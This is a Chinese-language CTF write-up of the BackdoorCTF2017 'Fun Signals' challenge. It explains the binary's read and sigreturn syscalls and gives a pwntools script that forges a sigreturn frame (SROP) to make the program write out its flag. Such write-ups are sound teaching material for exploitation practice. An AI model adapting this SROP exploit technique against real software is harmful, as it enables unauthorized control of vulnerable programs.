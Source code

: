 ## BackdoorCTF2017 Fun Signals
查看文件，可以看到这是一个64位的程序，并且没有开任何防护措施
![[Pasted image 20230424144150.png]]
拖入IDA中查看，可以看到程序中进行了两次syscall，第一次rax的值是0，调用read函数，第二次rax值是15，执行停止程序。同时我们也可以看到flag的位置，那么我们需要利用SROP将该位置的flag输出。
![[Pasted image 20230424145615.png]]
### 如何利用
再看这两个syscall：
- 第一个syscall是read函数，此时的edi是0，edx是0x400，rsi是栈顶的值，根据read函数的参数和Linux函数调用约定可以知道，这意思是从标准输入读取0x400个字节到栈顶。
- 第二个syscall是sigreturn，它会将栈中的数据按照ucontext_t结构恢复寄存器。
所以我们可以写入一个伪造的sigreturn frame，让sigreturn恢复。
为了能够输出flag，那我们伪造的sigreturn frame得是一个write函数的系统调用，系统调用号是0x1
```python
from pwn import *

elf = ELF('./funsignals_player_bin')
io = process('./funsignals_player_bin')
# io = remote('hack.bckdr.in', 9034)

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = elf.symbols['flag']
frame.rdx = 50
frame.rip = elf.symbols['syscall']

io.send(str(frame))
io.interactive()
```
成功将flag输出。
![[Pasted image 20230424152823.png]]